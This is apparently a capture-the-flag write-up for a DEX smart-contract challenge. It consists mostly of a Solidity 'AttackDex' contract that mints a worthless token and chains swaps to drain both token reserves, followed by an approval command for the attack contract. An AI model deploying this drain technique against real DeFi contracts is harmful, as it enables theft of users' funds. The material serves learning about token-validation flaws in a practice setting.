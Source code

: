 Similar aproach as in Dex, but this time we creates our token to drain both token1 and token2. Similar strategy but contract is needed.
After deploying instance we need to deploy following contract:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol";

interface Dex {
    function token1() external view returns (address);
    function token2() external view returns (address);
    function swap(address, address, uint) external;
    function approve(address, uint) external;
}

contract AttackDex is ERC20 {
    Dex dex;
    address token1;
    address token2;

    constructor(Dex _dex) ERC20("AtackToken", "AT") {
        dex = _dex;
        token1 = dex.token1();
        token2 = dex.token2();
    }

    // needs to add approve for this contract
    //await contract.approve('THIS_ADDRESS', 10)
    
    function attack() public {
        dex.approve(address(dex), 2**50);
        this.approve(address(dex), 2**50);
        _mint(address(this), 10);
        _mint(address(dex), 100);
        attackToken(token1);
        this.transfer(address(dex), 10); // that will set up initial values to ensure calculation are good. this contract will have 10 DEX: 100
        attackToken(token2);
    }

    function attackToken(address tokenAddress) private {
        address thisContract = address(this);
        IERC20(tokenAddress).transferFrom(msg.sender, thisContract, 10);

        dex.swap(tokenAddress, thisContract, 10);
        dex.swap(thisContract ,tokenAddress, 20);
        dex.swap(tokenAddress, thisContract, 24);
        dex.swap(thisContract ,tokenAddress, 30);
        dex.swap(tokenAddress, thisContract, 41);
        dex.swap(thisContract ,tokenAddress, 45);
    }
}
```
Later we need to add approve to DexHack to spend token1 and token2 supply on our behalf. 
```
await contract.approve('DEX_HACK', '10000000000000000000')
```
